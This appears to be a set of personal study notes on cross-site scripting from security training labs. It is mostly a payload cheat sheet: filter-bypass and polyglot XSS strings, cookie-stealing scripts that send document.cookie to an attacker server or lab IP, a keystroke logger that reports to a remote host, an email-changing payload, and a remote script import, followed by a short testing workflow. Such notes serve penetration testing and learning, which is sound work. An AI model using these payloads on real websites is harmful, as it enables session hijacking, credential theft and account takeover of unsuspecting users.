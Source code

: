 
`<script>alert("Succ3ssful XSS")</script>`
check where the text is reflected, in a tag?, in a string? end those:
`"><script>alert("Succ3ssful XSS")</script>`
in script code already?
`';alert('THM');//`

"script" word removed:
`<sscriptcript>alert('THM');</sscriptcript>`

<> filtered in IMG tag
`/images/cat.jpg" onload="alert('THM')`

Steal cookie - send to your own server to be logged
`<script>fetch('https://myserver.com/steal?cookie=' + btoa(document.cookie));</script>`
`</textarea><script>fetch('http://10.18.21.236:9001?cookie=' + btoa(document.cookie) );</script>`

Key logger - send to your own server to be logged
`<script>document.onkeypress = function(e) { fetch('https://myserver.com/log?key=' + btoa(e.key) );}</script>`

Using the web pages specific functions
`<script>user.changeEmail('attacker@hacker.thm');</script>`

"Polyglot"
``jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e``

**Reflected XSS** - our payload reflected/seen on the webpage/it's code
- Parameters in the URL Query String
- URL File Path
- Sometimes HTTP Headers (although unlikely exploitable in practice)

![[24e50d95cecfc3783bd1a3a4fecbf310.png]]

**Stored XSS** - our payload is stored on the website (database...)
test every possible point of entry where it seems data is stored
- Comments on a blog
- User profile information
- Website Listings
Test by manually entering data for example instead of the pages drop down menu with numbers..

**DOM Based XSS** - JavaScript execution happens directly in the browser no new pages loaded or data submitted to backend. Execution occurs when the website JavaScript code acts on input or user interaction.
- look for parts of the code that access certain variables that an attacker can have control over, such as "**window.location.x**" parameters
When you've found those bits of code, you'd then need to see how they are handled and whether the values are ever written to the web page's DOM or passed to unsafe JavaScript methods such as **eval()**

**Blind XSS** Stored but you can't see it
- Unfiltered messages sent
- ensure your payload has a call back (usually an HTTP request)




---

cross site scripting

insert javascript code into a website

stored or not, reflected or not



try html injection first - `"><u>test123"` /nahamsec

then try an event handler `<u/onmouseover=alert(1)>test123`
`<img src=x onerror=alert(1)>`

confirm

get your code in here `import('http://site.com/1.js')`

can put xss payload or blind xss payload

---

go through a web page, clicking everything to check what pages exist and what parameters exist, what fields exist..

#### Parameters
try payloads for parameters
url/?page_id=2test123 - is test123 on the page?
view page source or inspect, search for test123
	might end up in html, might be in html...
	if you're in a script tag, just close it: `"></script>test123`
	or for example `?param=2test123"></script>test123<img%20src=x%20onerror=alert();//>`
	or simply `?param=2%27;+alert()//test123`
	check for other empty variables in javascript code and try them as parameters

#### Fields
blog title: Welcome`"><U>test123`
colors for style
even if it is sanitized when entering into the form we can modify the request by capturing it with burp...
if we add a `</style>test123<script>alert()</script>`




